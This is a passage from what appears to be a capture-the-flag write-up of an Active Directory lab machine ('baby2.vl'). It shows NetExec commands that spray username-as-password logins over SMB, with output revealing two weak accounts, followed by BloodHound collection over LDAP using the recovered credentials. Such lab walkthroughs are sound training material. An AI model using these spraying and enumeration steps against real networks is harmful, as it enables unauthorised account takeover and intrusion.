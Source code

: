 ```bash
library
```

With a username list in hand, I try the classic “username == password” check. It’s quick, gentle (no bruteforce), and hits a surprising amount of real-world wins:
```bash
❯ nxc smb dc.baby2.vl -u users -p users --no-bruteforce --continue-on-success

[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False) (Null Auth:True)
[-] baby2.vl\Administrator:Administrator STATUS_LOGON_FAILURE 
[-] baby2.vl\Guest:Guest STATUS_LOGON_FAILURE 
[-] baby2.vl\krbtgt:krbtgt STATUS_LOGON_FAILURE 
[-] baby2.vl\DC$:DC$ STATUS_LOGON_FAILURE 
[-] baby2.vl\gpoadm:gpoadm STATUS_LOGON_FAILURE 
[-] baby2.vl\Joan.Jennings:Joan.Jennings STATUS_LOGON_FAILURE 
[-] baby2.vl\Mohammed.Harris:Mohammed.Harris STATUS_LOGON_FAILURE 
[-] baby2.vl\Harry.Shaw:Harry.Shaw STATUS_LOGON_FAILURE 
[+] baby2.vl\Carl.Moore:Carl.Moore 
[-] baby2.vl\Ryan.Jenkins:Ryan.Jenkins STATUS_LOGON_FAILURE 
[-] baby2.vl\Kieran.Mitchell:Kieran.Mitchell STATUS_LOGON_FAILURE 
[-] baby2.vl\Nicola.Lamb:Nicola.Lamb STATUS_LOGON_FAILURE 
[-] baby2.vl\Lynda.Bailey:Lynda.Bailey STATUS_LOGON_FAILURE 
[-] baby2.vl\Joel.Hurst:Joel.Hurst STATUS_LOGON_FAILURE 
[-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE 
[+] baby2.vl\library:library 
```

**Hits:** two accounts accept their own names as passwords:
- `Carl.Moore:Carl.Moore`
- `library:library`

# Foothold
## BloodHound
Using a low-priv account to collect BloodHound edges is usually enough to reveal attack paths. I collect via LDAP using the `library` creds:
```bash
❯ mkdir blooood
❯ cd blooood

❯ nxc ldap dc.baby2.vl -u library -p library --bloodhound -c All --dns-server $target
[*] Windows Server 2022 Build 20348 (name:DC) (domain:baby2.vl) (signing:None) (channel binding:Never) 
[+] baby2.vl\library:library 
Resolved collection methods: dcom, trusts, session, psremote, container, acl, rdp, group, localadmin, objectprops
Done in 0M 8S
Compressing output into /home/kali/.nxc/logs/DC_10.129.234.72_2025-10-03_213417_bloodhound.zip
```
